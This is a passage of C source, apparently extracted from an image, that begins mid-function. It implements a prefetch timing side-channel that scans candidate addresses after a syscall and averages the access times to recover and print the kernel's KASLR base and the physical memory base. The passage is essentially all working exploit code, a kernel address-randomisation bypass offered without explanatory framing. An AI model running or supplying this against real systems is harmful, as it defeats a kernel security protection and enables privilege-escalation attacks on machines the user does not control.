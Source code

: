 ```c
  c = (d << 32) | c;
  return c - a;
}

uint64_t prefetch(int phys)
{
    uint64_t arr_size = ARR_SIZE_KERNEL;
    uint64_t scan_start = SCAN_START_KERNEL;
    uint64_t step_size = STEP_KERNEL;
    if (phys) {
	    arr_size = ARR_SIZE_PHYS;
	    scan_start = SCAN_START_PHYS;
	    step_size = STEP_PHYS;
    }

    uint64_t *data = malloc(arr_size * sizeof(uint64_t));
    memset(data, 0, arr_size * sizeof(uint64_t));

    uint64_t min = ~0, addr = ~0;

    for (int i = 0; i < ITERATIONS + DUMMY_ITERATIONS; i++) {
        for (uint64_t idx = 0; idx < arr_size; idx++)
        {
            uint64_t test = scan_start + idx * step_size;
            syscall(104);
            uint64_t time = sidechannel(test);
            if (i >= DUMMY_ITERATIONS)
                data[idx] += time;
        }
    }

    for (int i = 0; i < arr_size; i++) {
        data[i] /= ITERATIONS;
        if (data[i] < min)
        {
            min = data[i];
            addr = scan_start + i * step_size;
        }
    }

    free(data);

    return addr;
}

int main(int argc, char **argv) {
    struct user_regs_struct regs;

    uint64_t kaslr = prefetch(0) - 0xc00000;
    uint64_t phys = prefetch(1) - 0x100000000;

    printf("KERNEL base %lx\n", kaslr);
    printf("PHYS base %lx\n", phys);
}
```
